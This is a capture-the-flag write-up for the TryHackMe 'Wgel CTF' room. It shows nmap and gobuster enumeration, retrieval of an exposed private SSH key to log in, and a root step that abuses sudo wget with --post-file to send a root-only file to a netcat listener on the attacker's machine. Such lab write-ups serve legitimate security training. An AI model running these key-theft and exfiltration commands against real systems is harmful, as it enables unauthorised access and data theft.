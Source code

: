 ```yaml
---
description: https://tryhackme.com/room/wgelctf
---
```


# Wgel CTF

## :writing\_hand: Solution

### **User flag**

```
sudo nmap 10.10.151.61
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 10-44-12.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-26-15.png>)

```
gobuster dir -u http://10.10.151.61/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t 64
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 10-45-51.png>)

```
gobuster dir -u http://10.10.54.90/sitemap/ \
             -w /usr/share/dirb/wordlists/common.txt \
             -t 64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-23-17.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-24-47.png>)

```
wget http://10.10.54.90/sitemap/.ssh/id_rsa
sudo chown 600 id_rsa
ssh -i id_rsa jessie@10.10.54.90
```

```
$ ls -A *
$ cat Documents/user_flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-28-23.png>)

### Root flag

```bash
nc -nvlp 4444
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-40-44.png>)

```bash
sudo wget --post-file=/root/root_flag.txt http://10.9.101.193:4444/
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-40-48.png>)

## Support Material

{% embed url="https://gtfobins.github.io/gtfobins/wget/" %}
